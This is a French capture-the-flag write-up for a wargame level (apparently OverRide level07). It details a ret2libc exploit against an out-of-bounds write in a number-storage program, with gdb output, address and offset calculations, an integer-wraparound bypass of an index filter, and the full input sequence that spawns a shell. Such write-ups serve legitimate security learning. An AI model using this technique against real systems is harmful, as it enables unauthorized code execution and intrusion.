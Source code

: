 # Level 07

## Solution

Le programme crée un tableau avec la capacité de stocker 100 entiers non signés (positifs). Il dispose de deux fonctions principales :

-   store_number : permet de stocker un entier à un indice donné dans le tableau, en vérifiant certaines conditions (comme un contrôle d'index réservé).
-   read_number : permet de lire un entier à un indice donné dans le tableau et de l'afficher.

Dans ce programme on peu constater plusieur point :

-   argv et envp sont vidés : Cela signifie que les arguments de ligne de commande (argv) et les variables d'environnement (envp) sont explicitement effacés en mémoire, ce qui les rend inutilisables pour un exploit ou une injection basée sur ces paramètres.
-   La condition (index % 3 == 0 || (unum >> 24) == 183) : Lorsque cette condition est vraie, le programme empêche de stocker le nombre à l'indice spécifié. Cela signifie que les indices multiples de 3 ou les nombres dont l'octet de poids fort (les 8 bits les plus à gauche) est égal à 183 ne seront pas stockés dans le tableau.
-   Absence de vérification d'index : Hormis la condition mentionnée ci-dessus, il n'y a aucune autre vérification sur l'index. Une vulnérabilité de dépassement de tampon (buffer overflow), permettant potentiellement d'écrire en dehors de la zone mémoire prévue pour le tableau.

Pour realiser notre exploit on va essayer d'effectuer un ret to libc, pour ce faire on va avoir besoin de trouver plusieur chose :
-   L'adresse de eip converti en index du tableau
-   L'adresse de notre tableau qui sert a stocker nos entrée
-   Les adresses de System, un padding et "/bin/sh"
-   L'index de l'adresse de retour dans notre tableau
-   L'index est multiplié par 4 donc chaque nombre que l'on veut stocker son stocker 4 fois plus loin
-   Comme une des 3 adresse entrera forcement dans la condition (**index % 3 == 0**), on devra trouver l'offset en fessant un wrapping

#### Adresse de Eip

Il suffit de faire **info frame** au debut du main pour recuperer l'adresse de retour :

```
(gdb) b main
(gdb) run 
(gdb) info f
Stack level 0, frame at 0xffffcf10:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffcf08, args: 
 Locals at 0xffffcf08, Previous frame's sp is 0xffffcf10
 Saved registers:
  ebp at 0xffffcf08, eip at 0xffffcf0c
```

Adresse de retour : 0xffffcf0c

#### Adresse du tableau

Pour recuper l'adresse de notre tableau, on peu mettre un breakpoint dans read_number ou store_number et regarder a **"ebp + 8"**, car l'adresse du tableau est passer en argument, donc elle se situe a 8 octet apres la base de la stack.

```
(gdb) b store_number 
Breakpoint 1 at 0x8048636
(gdb) run
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()
(gdb) x/x $ebp + 8
0xffffcd20:     0xffffcd44
```

On peu en conclure que l'adresse **0xffffcd20** stock la valeur **0xffffcd44**.

Adresse du tableau : 0xffffcd44

#### Adresse pour le payload

-   System :
```
    (gdb) p &system
    $1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
```

-   Padding :
```
    0
```
-   Adresse de "/bin/sh" :
```
    (gdb) find &system,+9999999,"/bin/sh"
    0xf7f897ec
```

System : 0xf7e6aed0 -> Decimal = 4159090384
Padding : 0
"/bin/sh" : 0xf7f897ec -> Decimal = 4160264172

#### Calcul des index 

Pour calculer l'index de l'adresse de retour dans notre tableau on va juste calculer la distance entre l'adresse de retour et l'adresse du tableau :
```
0xffffcf0c - 0xffffcd44 = 456 / 4 (sur du 32bits) = 114
```

offset de l'adresse de retour : 114

index system : 114
index padding : 115
index /bin/sh : 116

#### Calcul du wraparound

Comme la condition (**index % 3 == 0**) est vrai pour 114 on va devoir utiliser une technique **"Wraparound"**, comme l'input pour l'index n'est pas verifier, puis notre nombre est stocker a l'index multiplier par 4 on va pouvoir mettre un nombre qui une fois multiplié par 4 fera 114 au moment du stockage :

-   UIN_MAX = 256 ^ 4 (pour du 32 bit)
```
    level07@OverRide:~$ bc
    bc 1.06.95
    Copyright 1991-1994, 1997, 1998, 2000, 2004, 2006 Free Software Foundation, Inc.
    This is free software with ABSOLUTELY NO WARRANTY.
    For details type `warranty'. 
    256 ^ 4 / 4 + 114
    1073741938
    1073741938 % 3
    1
```

#### Recap

adress system : 4159090384
index system : 1073741938

adress padding : 0
index padding : 115

adress "/bin/sh" : 4160264172
index /bin/sh : 116

### Payload

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 0
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: exit
 Failed to do exit command
Input command: quit
$ 
```